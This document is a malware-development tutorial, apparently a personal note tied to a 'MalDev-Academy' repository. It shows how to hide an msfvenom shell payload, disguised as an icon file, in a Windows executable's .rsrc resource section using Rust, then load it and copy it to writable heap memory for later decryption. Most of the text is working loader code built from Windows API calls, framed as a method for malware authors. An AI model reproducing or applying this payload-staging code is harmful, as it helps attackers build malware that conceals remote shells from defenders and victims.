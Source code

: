 # Intro
Stored payload in `.rsrc` section is a cleaner method for malware authors, since larger payloads cannot be stored in the `.data` or `r.data` sections due to size limits. 

## .rsrc Section
The steps below illustrate how to store a payload in the .rsrc section in rust.

First all we need to store a payload (in this case a msfvenom shell) into a `calc.ico` file, now create a `resource.rc` file where the type is [RCDATA](https://learn.microsoft.com/en-us/windows/win32/menurc/rcdata-resource) and the IDR_RCDATA1 is a payload's ID in the resource section.This is important in order to be able to retrieve the payload from the resource section later.

```rust
#define IDR_RCDATA1 101

IDR_RCDATA1 RCDATA "calc.ico"
```

![[Pasted image 20250530223551.png]]

Now we need to compile the `resource.rc` file to do that in rust we can create a `build.rs` file and write this code in 

```rust
fn main(){
    // This build script compiles a Windows resource file.
    windres::Build::new()
        .compile("resource.rc")
        .unwrap();
}
```

add the **windres** as `[build-dependencies]` in the `Cargo.toml` file

```rust
[build-dependencies]
windres = "0.2.2"
```

in the dependecies section add the `winapi` 
```rust
[dependencies]
winapi = { version = "0.3.9", features = ["winbase", "libloaderapi", "minwindef", "errhandlingapi", "winuser", "heapapi"] }
```

using `FindResourceW` Windows API function through the `IDR_RCDATA1` (the payload's ID) we can retrieve the location of the payload 

```rust
let h_module = ptr::null_mut();
let h_rsrc = FindResourceW(
	h_module,
	MAKEINTRESOURCEW(101),
	RT_RCDATA
);
if h_rsrc.is_null(){
	print!("[!] Failed to find resource: {}\n", GetLastError());
	return;
}
```

Use `LoadResource` Windows API function to retrieve the `HGLOBAL` handler that is required to call `LockResource` later
```rust
let h_global = LoadResource(h_module,h_rsrc);
if h_global.is_null() {
	print!("[!] Failed to load resource: {}\n", GetLastError());
	return;
}
```

Use `LockResource` to  retrieve the pointer of the data. This is necessary to access the actual data stored in the resource.

```rust
let p_payload = LockResource(h_global) as *mut u8;
if p_payload.is_null() {
	print!("[!] Failed to lock resource: {}\n", GetLastError());
	return;
}
```

## Make the payload editable
Now the .rsrc section is `read-only` so if our payload is encrypted and we need to decrypt we can do it by create a virtual memory location and copy the `p_payload` over it.

First all retrieve the the size of the payload using `SizeofResource`  

```rust
let payload_size = SizeofResource(h_module, h_rsrc) as usize;
if payload_size == 0 {
	print!("[!] Failed to get resource size: {}\n", GetLastError());
	return;
}
```

Now allocate the valid memory location using `HeapAlloc`
```rust
let h_heap = GetProcessHeap();
let p_tmp_buffer = HeapAlloc(h_heap,0,payload_size) as *mut u8;
if p_tmp_buffer.is_null() {
	print!("[!] Failed to allocate memory on heap: {}\n", GetLastError());
return;
}
```

In the end copy the payload in the new memory location using `copy_nonoverlapping` function.
```rust
std::ptr::copy_nonoverlapping(p_payload, p_tmp_buffer, payload_size);
```


## Code execution

We can add this code to print the address space of the payload 
```rust
// Print section for debugging purposes
println!("[i] Payload Addresss: {:p}", p_payload);
println!("[i] Payload Size: {}", payload_size);
println!("[i] Temporary Buffer Address: {:p}", p_tmp_buffer);

println!("[#] Press <Enter> to Exit...");
let _ = std::io::stdin().read(&mut [0u8; 1]);
```

![[Pasted image 20250530225833.png]]

As in image above we can notice the `0x7ff72f05a060` is the address of payload in the `resource.rc` section. 
The `0x19a73c7ee40` is our editable payload's address instance.

## References

- **[MyCode](https://github.com/gabriele-annese/Malware-Development/tree/main/Rust/MalDev-Academy/payload_placement_rsrc_section)**
